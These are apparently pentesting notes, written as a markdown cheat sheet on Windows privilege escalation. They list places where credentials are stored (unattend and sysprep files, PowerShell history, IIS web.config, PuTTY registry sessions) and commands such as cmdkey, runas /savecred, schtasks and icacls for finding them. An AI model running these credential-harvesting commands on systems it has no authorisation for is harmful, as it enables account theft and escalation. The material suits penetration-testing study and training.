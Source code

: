 # Table of content

```{r load_packages, message=FALSE, warning=FALSE, include=FALSE}
library(fontawesome)
```

- [Table of content](#table-of-content)
- [return to index](INDEX.md)
  - [manual](#manual)
    - [Unattended Windows Installations](#unattended-windows-installations)
    - [Powershell History](#powershell-history)
    - [Saved Windows Credentials](#saved-windows-credentials)
    - [IIS Configuration](#iis-configuration)
    - [Retrieve Credentials PuTTY](#retrieve-credentials-putty)
    - [Scheduled Tasks](#scheduled-tasks)
    - [check permissions of a file](#check-permissions-of-a-file)

## manual

### Unattended Windows Installations

you can find some logins in this dir:
    - C:\Unattend.xml
    - C:\Windows\Panther\Unattend.xml
    - C:\Windows\Panther\Unattend\Unattend.xml
    - C:\Windows\system32\sysprep.inf
    - C:\Windows\system32\sysprep\sysprep.xml

Back to top [`r fa("arrow-up", fill = "steelblue")`](#)
  
### Powershell History

you can also check the cmd history using this commands:

- cmd.exe :

```cmd
type %userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
```

- powershell.exe :

```cmd
type $Env:userprofile\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
```

### Saved Windows Credentials

this list saved credentials :

```cmd
cmdkey /list
```

change of user:

```cmd
runas /savecred /user:admin cmd.exe
```

### IIS Configuration

you can find config file at this locations:

    - C:\inetpub\wwwroot\web.config
    - C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config

and you can use this command:

```cmd
type C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config | findstr connectionString
```

### Retrieve Credentials PuTTY

```cmd
reg query HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\ /f "Proxy" /s
```

### Scheduled Tasks

get scheduled tasks set:

```cmd
schtasks /query /tn vulntask /fo list /v
```

### check permissions of a file

```cmd
icacls c:\tasks\schtask.bat
```
